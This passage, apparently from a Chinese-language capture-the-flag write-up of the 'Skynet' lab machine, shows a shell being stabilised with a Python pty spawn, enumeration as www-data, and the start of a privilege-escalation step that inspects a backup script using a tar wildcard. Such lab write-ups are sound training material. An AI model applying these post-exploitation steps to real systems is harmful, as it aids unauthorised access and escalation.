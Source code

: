     + 有无python环境：

    ``which python`` 
    ```
    $ which python
    /usr/bin/python
    ```
    + 利用python切换稳定shell:

        ``python -c "import pty ; pty.spawn('/bin/bash')"``
    
    ```
    $ which python
    /usr/bin/python
    $ python -c "import pty ; pty.spawn('/bin/bash')"
    www-data@skynet:/$ dir
    dir
    bin   home	      lib64	  opt	sbin  tmp      vmlinuz.old
    boot  initrd.img      lost+found  proc	snap  usr
    dev   initrd.img.old  media	  root	srv   var
    etc   lib	      mnt	  run	sys   vmlinuz
    www-data@skynet:/$ uname -a
    uname -a
    Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
    www-data@skynet:/$ cd /home 
    cd /home
    www-data@skynet:/home$ dir
    dir
    milesdyson
    www-data@skynet:/home$ cd milesdyson
    cd milesdyson
    www-data@skynet:/home/milesdyson$ dir
    dir
    backups  mail  share  user.txt
    ```

## Linux提权

+ 进入backups目录并查看其中的文件内容:

    ```
    www-data@skynet:/home/milesdyson/backups$ dir
    dir
    backup.sh  backup.tgz
    www-data@skynet:/home/milesdyson/backups$ cat backup.sh
    cat backup.sh
    #!/bin/bash
    cd /var/www/html
    tar cf /home/milesdyson/backups/backup.tgz *
    ```
    备份任务是进入/var/www/html路径下将文件归档为backup.tgz压缩文件并保存在/home/milesdyson/backups路径下
